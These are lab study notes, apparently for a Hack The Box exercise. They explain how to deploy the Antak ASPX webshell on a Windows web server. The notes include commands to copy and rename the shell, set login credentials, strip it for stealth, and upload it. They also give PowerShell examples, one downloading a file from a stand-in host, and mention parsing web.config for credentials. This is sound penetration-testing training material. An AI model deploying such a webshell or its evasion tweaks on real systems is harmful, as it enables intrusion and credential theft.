 ## 1. ASPX Basics

- **ASPX (Active Server Pages Extended)** is part of the **Microsoft ASP.NET framework**.
    
- Used to render **dynamic HTML pages** using server-side code.
    
- When uploaded or injected, an ASPX webshell allows **remote command execution** on Windows servers.
    

---

## 2. Learning Resources

- Use [ippsec.rocks](https://ippsec.rocks/) to search through HTB walkthrough videos.
    
- Search for terms like:
    
    - `aspx`
        
    - `webshell`
        
    - `Antak`
        
- **Recommended Video:** Retired HTB box **Cereal** — watch from **1:17:00 to 1:20:00** for an ASPX webshell example.
    

---

## 3. What is Antak Webshell

- **Antak** is an ASPX-based webshell from the **Nishang framework**.
    
- Built to interact with PowerShell for post-exploitation tasks.
    

**Key Capabilities:**

- Encode and execute PowerShell scripts
    
- Upload and download files
    
- Execute SQL queries
    
- Parse `web.config` files for stored credentials
    

**Location on Kali/Parrot:**

```bash
/usr/share/nishang/Antak-WebShell/
```

---

## 4. Workflow to Use Antak Webshell

### Step 1: Copy the Shell for Editing

```bash
cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx
```

---

### Step 2: Modify Credentials

Edit `Upload.aspx`:

```csharp
if(Request["username"] == "htb-student" && Request["password"] == "htb-student")
```

**Optional for Stealth:**

- Remove ASCII art.
    
- Strip verbose comments or unused code.
    

---

### Step 3: Update `/etc/hosts`

To resolve the internal domain:

```bash
sudo nano /etc/hosts
```

Add:

```
<target-ip> status.inlanefreight.local
```

---

### Step 4: Upload the ASPX File

Use the **upload form** on the target web app:

- Files are stored in the `\\files\\` directory.
    
- Example URL:
    

```
http://status.inlanefreight.local/files/Upload.aspx
```

---

### Step 5: Access the Web Shell

- Open the URL in your browser.
    
- Log in with your set credentials (example: `htb-student / htb-student`).
    
- You should see the **Antak interface**.
    

---

## 5. Features of Antak Webshell

- PowerShell command input panel
    
- Upload and download support
    
- Base64 encoding and script execution
    
- Command buttons:
    
    - **Clear**
        
    - **Help**
        
    - **Parse web.config**
        
    - **Upload/Download**
        
    - **SQL Execution**
        

**Execution Behavior:**  
Each command runs as a **new PowerShell process**.

---

## 6. Example Commands

**Basic Enumeration**

```powershell
whoami
Get-Process
```

**File and Directory Management**

```powershell
Get-ChildItem -Path C:\
```

**Networking and Requests**

```powershell
Invoke-WebRequest -Uri http://example.com/file.txt -OutFile C:\Users\Public\file.txt
```

**Remote Command Execution**

```powershell
Invoke-Command -ScriptBlock { Get-Service }
```

**Get Help**

```powershell
help
```

---

## 7. Why Use Antak

- Prebuilt and easy to deploy.
    
- Integrates **PowerShell** for flexible post-exploitation tasks.
    
- Supports file transfer and script execution out-of-the-box.
    
- Can be easily customized to evade detection.
    

---

Would you like me to prepare a **cheat sheet of common PowerShell commands** to use effectively within Antak?